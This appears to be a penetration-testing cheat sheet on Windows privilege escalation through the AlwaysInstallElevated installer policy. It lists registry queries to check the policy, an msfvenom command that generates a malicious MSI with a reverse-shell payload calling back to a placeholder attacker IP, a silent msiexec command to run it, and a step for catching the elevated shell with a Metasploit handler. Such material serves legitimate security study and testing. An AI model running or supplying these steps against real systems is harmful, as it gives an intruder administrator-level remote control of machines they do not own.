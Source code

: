 Windows installer files (also known as .msi files) are used to install applications on the system. They usually run with the privilege level of the user that starts it. However, <mark style="background: #BBFABBA6;">these can be configured to run with higher privileges from any user account (even unprivileged ones)</mark>. This could potentially allow us to generate a malicious MSI file that would run with admin privileges

**<mark style="background: #FF5582A6;">Check Registry Values</mark>:**

- Commands:
```graphql
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer 
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
```

- Purpose: Confirm if registry values are set for AlwaysInstallElevated.

- **<mark style="background: #FF5582A6;">Generate Malicious MSI File</mark>:**

- Command: 
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=[AttackerIP] LPORT=[LocalPort] -f msi -o malicious.msi
```

- Purpose: Create a malicious MSI file with a reverse shell payload.

- **<mark style="background: #FF5582A6;">Run Malicious Installer</mark>:**

- Command:
```cmd
msiexec /quiet /qn /i C:\Windows\Temp\malicious.msi
```

   • Purpose: Execute the installer to trigger the payload.

- **<mark style="background: #FF5582A6;">Receive Reverse Shell</mark>:**
    - Ensure the Metasploit Handler is configured.
    - Upon successful execution, the attacker gains a shell with elevated privileges.